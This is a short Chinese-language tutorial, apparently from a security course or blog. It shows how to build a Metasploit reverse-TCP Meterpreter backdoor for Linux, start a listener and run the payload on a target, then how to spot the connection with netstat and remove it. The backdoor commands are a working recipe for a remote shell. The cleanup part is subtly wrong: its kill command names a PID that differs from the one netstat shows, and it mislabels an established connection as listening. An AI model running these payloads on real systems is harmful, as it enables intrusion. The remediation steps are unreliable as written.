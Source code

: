 ## **常规 MSF 后门**

 生成linux可执行文件，反向tcpshell后门。
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=7777 -f elf >shell.elf
```
MSF服务端监听
```
use exploit/multi/handler
set payload linux/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 7777
run
```
目标机运行可执行文件
```
chmod +x shell.elf
./shell.elf
```
成功上线。

## **排查上线的后门**

分析：Linux下查看进程，看到攻击IP
```
netstat -anpt   //以数字格式显示地址和端口号，同时显示与其关联的进程标识符和进程名称。
```
```
tcp 0 0 172.17.26.190:38294 47.94.236.117:7777  ESTABLISHED(正在监听)  22786/./shell.elf
```
杀掉进程id，删除木马文件
```
kill 1178678 
```

